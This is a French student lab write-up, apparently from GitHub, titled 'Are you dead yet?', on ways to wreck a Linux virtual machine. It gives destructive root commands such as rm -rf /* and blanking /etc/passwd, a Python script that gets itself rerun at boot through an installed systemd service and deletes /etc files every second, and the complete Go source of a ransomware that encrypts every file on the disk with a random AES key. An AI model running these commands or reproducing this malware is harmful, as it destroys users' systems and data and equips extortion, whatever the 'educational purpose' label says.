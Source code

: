 # TP1 : Are you dead yet ?

---

**🌞 Voici mes multiples façons d'exploser un linux :**

➜ **Level 1**

    hyouka@hyouka-VirtualBox:~$ sudo rm -rf /*
Première façon : cette commande permet de tout supprimer depuis la racine de manière récursive et forcée.

---

    hyouka@hyouka-VirtualBox:~$ sudo su -
    root@hyouka-virtualbox:~# echo "" > /etc/passwd
Deuxième façon : on écrit une string vide dans le etc, étant nécessaire au bon fonctionnement, plus rien ne marche. 

--- 
    hyouka@hyouka-VirtualBox:~$ sudo su -
    root@hyouka-virtualbox:~# rm -rf --no-preserve-root find / | grep kernel
    
Troisième façon : suppression de tout les kernels du linux.

---
    hyouka@hyouka-VirtualBox:~$ sudo su -
    root@hyouka-virtualbox:~# rm -rf --no-preserve-root find /lib

Troisième façon 2.0 : suppression des /lib de linux, on ne possède donc plus les images nécessaires au démarrage du système.

➜ **Level 2**  

    hyouka@hyouka-VirtualBox:~$ sudo su - 
    root@hyouka-virtualbox:~# python3 script.py
```   
#Script.py

import random, time, os

try:
    with open('dead.txt') as f:
    etc = f.readlines()
except:
    os.system('find /etc > dead.txt')

while True:
    os.system('clear')
    randomnumber1, randomnumber2 = random.randint(0,100)
    print(str(randomnumber1) + "-" + str(randomnumber2) + "\n")
    first = time.time()
    rep = input("Your choice : ")
    second = str(time.time() - int(first)).split(".")[0]
    print(second + " secondes se sont écoulées")
    
    if int(rep) == randomnumber1 - randomnumber2:
        print("The game continue")
    else:
        for k in range(int(second) * 5):
            randomNumberToDelete = random.randint(0, len(etc))
            try:
                os.system('rm -rf ' + etc[randomNumberToDelete])
            except:
                pass
```
Quatrième façon : ce script est un petit jeu farfelu qui demande à l'utilisateur de donner la réponse à des soustractions, le script supprime des fichiers du /etc en fonction du temps que l'utilisateur met à répondre, bon jeu. 😃
    
    hyouka@hyouka-VirtualBox:~$ sudo su - 
    root@hyouka-virtualbox:~# python3 malware.py
```
#malware.py

import random, time, os

r = os.popen('pwd').readlines()[0][:-1]

c = ["[Unit]", "Description=My Script","[Service]","ExecStart=/usr/bin/python3 "+r+"/malware.py","[Install]","WantedBy=multi-user.target"]

try:
    with open('dead.txt') as f:
        etc = f.readlines()
except:
    os.system('find /etc > dead.txt')
    with open('dead.txt') as f:
        etc = f.readlines()
    for k in c:    
        os.system('echo ' + k + ' >> /etc/systemd/system/byebye.service')
    os.system('systemctl enable byebye.service')

while True:
    time.sleep(1)
    randomNumberToDelete = random.randint(0, len(etc))
    try:
        os.system('rm -rf ' + etc[randomNumberToDelete])
    except:
        pass
```
Cinquième façon : soft version d'un malware qui s'auto-run en reboot, le script supprime un fichier du /etc toutes les secondes, le linux peut tenir 20 secondes comme 15 minutes, bonne chance.

➜ **Level 3**  

Context : V1 de notre Takt ransomware, notre projet file rouge avec [TomFox](https://github.com/TomF0x) en SSI.

**Pour chiffrer :**
    
    hyouka@hyouka-VirtualBox:~$ go build takt.go
    hyouka@hyouka-VirtualBox:~$ sudo ./takt

**Pour déchiffrer :**
    
    hyouka@hyouka-VirtualBox:~$ sudo ./takt --decrypt {BASE64(AES_KEY)}
    
```
#takt.go

package main

import (
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/base64"
	"fmt"
	"io/ioutil"
	"log"
	"os"
	"os/exec"
	"strings"
	"sync"
)

var wg sync.WaitGroup
var wgc sync.WaitGroup

var CryptKey = aesKey()

var IV = []byte("1234567812345678")

func createKey() []byte {
	genkey := make([]byte, 32)
	_, err := rand.Read(genkey)
	if err != nil {
		log.Fatalf("Failed to read new random key: %s", err)
	}
	return genkey
}

func aesKey() []byte {
	key := createKey()
	return key
}

func createCipher() cipher.Block {
	c, err := aes.NewCipher(CryptKey)
	if err != nil {
		log.Fatalf("Failed to create the AES cipher: %s", err)
	}
	return c
}

func Crypt(filename string, ch chan string) {
	file, _ := os.Open(filename)
	fileInfo, err := os.Stat(filename)
	if err != nil {
		wgc.Done()
		file.Close()
		Crypt(<-ch, ch)
	}
	if fileInfo.Size() > 200000000 {
		wgc.Done()
		file.Close()
		Crypt(<-ch, ch)
	}
	arr := make([]byte, fileInfo.Size())
	_, _ = file.Read(arr)
	file.Close()
	blockCipher := createCipher()
	stream := cipher.NewCTR(blockCipher, IV)
	stream.XORKeyStream(arr, arr)
	_ = ioutil.WriteFile(filename, arr, 0644)
	wgc.Done()
	Crypt(<-ch, ch)
}

func DeCrypt(filename string, ch chan string) {
	bytes, _ := ioutil.ReadFile(filename)
	blockCipher, _ := aes.NewCipher(CryptKey)
	stream := cipher.NewCTR(blockCipher, IV)
	stream.XORKeyStream(bytes, bytes)
	_ = ioutil.WriteFile(filename, bytes, 0644)
	wgc.Done()
	DeCrypt(<-ch, ch)
}

func main() {
	cmd := exec.Command("bash", "-c", "find / -type f")
	output, _ := cmd.CombinedOutput()
	listfile := strings.Split(string(output), "\n")
	ch := make(chan string, len(listfile))
	for _, file := range listfile {
		wg.Add(1)
		wgc.Add(1)
		go func(file string) {
			ch <- file
			wg.Done()
		}(file)
	}
	wg.Wait()
	args := os.Args[1:]
	if len(args) == 0 {
		fmt.Print("Crypt With ")
		fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
		for i := 0; i < 100; i++ {
			if len(ch) == 0 {
				break
			}
			go Crypt(<-ch, ch)
		}
		wgc.Wait()
	} else if len(args) == 2 && args[0] == "--decrypt" {
		CryptKey, _ = base64.StdEncoding.DecodeString(args[1])
		fmt.Print("Decrypt With ")
		fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
		for i := 0; i < 100; i++ {
			if len(ch) == 0 {
				break
			}
			go DeCrypt(<-ch, ch)
		}
		wgc.Wait()
	}
}
```

Sixième façon : Takt ransomware utilise du Threading et des channels (fonctionnement de pile). La clé de chiffrement est en AES 256 et est générée de manière aléatoire. Ces procédés le rendent extrêmement rapide. Il chiffre l'entiéreté du disque (pour cette version, il chiffre le système également, si besoin on possède une version qui permet au système de survivre), l'utilisateur n'a accès a plus aucune de ses données. 

EPO : Educational Purpose Only 